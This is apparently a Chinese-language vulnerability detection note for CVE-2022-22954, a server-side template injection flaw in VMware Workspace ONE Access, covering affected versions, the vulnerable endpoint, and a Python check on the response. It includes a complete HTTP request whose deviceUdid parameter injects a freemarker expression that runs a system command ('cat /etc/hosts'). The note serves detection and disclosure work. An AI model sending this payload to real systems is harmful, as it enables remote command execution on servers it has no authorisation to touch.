

# VMware Workspace ONE Access SSTI远程代码执行漏洞（CVE-2022-22954）检测说明

## 漏洞简介

VMware Workspace ONE Access 存在服务端模板注入（SSTI）漏洞，攻击者可通过构造特定请求实现远程代码执行，危及系统的机密性、完整性和可用性。

## 影响范围

- 产品：VMware Workspace ONE Access / Identity Manager
- 影响版本：3.3.3 及相关版本
- CVE编号：CVE-2022-22954
- 危害等级：Critical

## 漏洞原理

/catalog-portal/ui/oauth/verify接口的deviceUdid参数未做有效过滤，攻击者可注入模板表达式，利用freemarker模板引擎的执行能力，最终实现任意命令执行。

## 利用方式与攻击流程

1. 攻击者构造带有SSTI payload的GET请求，deviceUdid参数注入freemarker模板表达式。
2. 服务器端未对参数进行安全处理，直接渲染模板。
3. 模板引擎执行恶意表达式，触发命令执行。
4. 响应体返回特定错误信息，攻击者据此判断漏洞是否存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /catalog-portal/ui/oauth/verify?error=&deviceUdid=${%22freemarker.template.utility.Execute%22?new()("cat /etc/hosts")} HTTP/1.1
Host: target.com
```

- deviceUdid参数注入freemarker模板表达式，尝试执行命令。

### 预期响应与交互

- 响应体需包含`Authorization context is not valid`。
- HTTP状态码为400。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 400 and 'Authorization context is not valid' in response.text:
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [Tenable分析](https://www.tenable.com/blog/vmware-patches-multiple-vulnerabilities-in-workspace-one-vmsa-2022-0011)
- [VMware官方通告](https://www.vmware.com/security/advisories/VMSA-2022-0011.html)
- [Packet Storm分析](http://packetstormsecurity.com/files/166935/VMware-Workspace-ONE-Access-Template-Injection-Command-Execution.html)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2022-22954) 